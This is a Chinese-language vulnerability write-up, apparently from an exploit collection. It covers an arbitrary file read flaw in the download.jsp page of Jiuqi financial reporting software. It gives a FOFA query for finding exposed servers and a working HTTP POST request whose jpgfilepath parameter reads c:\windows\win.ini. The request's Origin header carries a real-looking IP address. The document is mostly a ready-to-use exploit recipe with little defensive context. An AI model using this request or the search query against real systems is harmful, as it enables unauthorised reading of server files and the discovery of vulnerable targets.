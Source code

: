 # 久其财务报表 download.jsp 任意文件读取漏洞

## 漏洞描述

久其财务报表 download.jsp 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的信息

## 漏洞影响

```
久其财务报表
```

## FOFA

```
body="/netrep/"
```

## 漏洞复现

登录路径如下



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101905343.png)



发送请求包



```plain
POST /netrep/ebook/browse/download.jsp HTTP/1.1
Host: 
Content-Length: 55
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://114.251.113.53:7002
Content-Type: application/x-www-form-urlencoded

jpgfilepath=c:\windows\win.ini
```



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101905484.png)